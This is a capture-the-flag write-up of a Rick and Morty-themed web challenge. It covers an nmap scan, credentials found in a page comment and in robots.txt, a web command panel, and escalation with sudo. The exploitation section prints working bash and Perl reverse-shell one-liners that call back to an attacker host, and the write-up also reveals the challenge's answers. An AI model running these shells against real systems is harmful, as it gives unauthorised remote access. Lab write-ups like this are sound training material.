 Description:

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Scenario:

We've been given  the IP address of the victim host  ex 255.255.255.255

## Step 1: Scanning

Using nmap i run the following command  

```bash
nmap -p- --open -sS -sV xxx.xxx.xxx.xxx
#this command may take some times to load, it's advicevle to exclude -n and -Pn 
#to don't resolve the DNS 
```

Where:

-p-  : scann all port

—open: show only the open ports

-sS : SYN scan is the default and most popular scan option for good reasons. It can be performed quickly, scanning thousands of ports per second on a fast network not hampered by restrictive firewalls. It is also relatively unobtrusive and stealthy since it never completes TCP connections.

-sV: Version detection

### Discovers

We discovered 2 open ports:

| Ports | STATE | SERVICE | VERSION |
| --- | --- | --- | --- |
| 22/TCP | open | ssh | Open SSH 2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux: protocolo2.0) |
| 80/TCP | open | http | Apache httpd 2.4.18 ((Ubunutu)) |

# Enumeration

Analysis Port 22/TCP

A

### **Analysis Port 80/TCP**

The port 80 redirect to a Web server, therefore i paste  on the browser url the IP adrres of the victim machine.

It directs  to a website 

****

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5a1f2ac4-10bc-40f6-b279-26528e8ca325/Untitled.png)

Opening the source code i notice the following comment

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a668633a-41bf-486b-9fe6-d21d1f7f80ee/Untitled.png)

We found a Username: **R1ckRul3s**

Now i want to enumerate the possible exsisting direct associated with that web server

I use the command

```bash
nmap -sV --script=http-enum <target>
```

-sV: Version detection

--script: Runs a script scan using the comma-separated list of filenames, script categories, and directories.

### Discovers

We found two directories:

```bash
/login.php
/robots.txt
```

Browsing to /login.php , we are redirect to a log in page :

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2cc435b8-98c2-4a31-a765-4ed3bf419ef2/Untitled.png)

Browsing to /robots.txt , we are redirect to a html page with this word (We assume it's the passowrd):

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/764766a5-6642-47fa-bc16-76487e4cf2f0/Untitled.png)

Credential :

Username: **R1ckRul3s**

Password: xxxxxxxxxxx

# Gaining privileges

We go back to {IP}/login.phop  and i use as Username: **R1ckRul3s and as** Password: xxxxxxxxxxx

We can successfully log in: 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c5cc2faf-1fb8-46e7-988a-43de3d52ec71/Untitled.png)

We're presente with a command pannel:

Running the command 

```bash
ls
```

we can see all the above showed assets , trying to 

```bash
cat
```

these file, will results in 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/23064ade-f915-459b-91d5-010f9b8c40ec/Untitled.png)

# Expolitation

We need to use a shell, in order to gain privileges in the victimes envirolment:

As main resources i used [https://ironhackers.es/en/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/en/herramientas/reverse-shell-cheat-sheet/)

1st attempt:

****Reverse Shell- Bash shell****

Following the documentation on the Attacker machine i opened the port 8080 to listen

```bash
nc -lvp 8080
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/557467c1-42c4-4413-b59b-425c731a7a52/Untitled.png)

On the Victim machine i run the  command:

```bash
bash -i >& /dev/tcp/xx.xx.xx.xx/8080 0>&1
```

## Nothin happen, Test failed

2ndAttempt

****Reverse Shell- Perl shell****

Following the documentation on the Attacker machine i opened the port 8080 to listen

```bash
nc -lvp 1234
```

On the Victim machine i run the  command:

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We gain access to the machine:

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/df773578-cceb-4bb0-81aa-5ec70742539b/Untitled.png)

Browsing the file system , now we can 

```bash
cat "Sup3rS3cretPickl3Ingred.txt"
```

### The First ingredients is : mr meeseek hair

When i 

```bash
pwd
```

it return 

```bash
pwd
var/www/html
```

The current user is :  www-data

going back in the folder hierarchy i go to 

```bash
/home
```

I can see:

```bash
rick 
ubunutu
```

I want to explore rick folder:

```bash
cd /home/rick
```

we found the second ingredients is Jerry Tear

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f8be9229-9436-4f9c-a0c1-f03a818f97c7/Untitled.png)

At this point i want to access the root folder and gain full privileges.

I tried with 

```bash
sudo su 
```

Luckly it work, by acceding the root folder 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6a48134a-1a8b-4992-a10f-57381559a96e/Untitled.png)

In the /root folder wel'’find the 3rd ingredient :

```bash
cat 3rd.txt
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3dced013-95e7-4aca-b82b-929c7885cc14/Untitled.png)

The 3rd ingredients is fleeb Juice
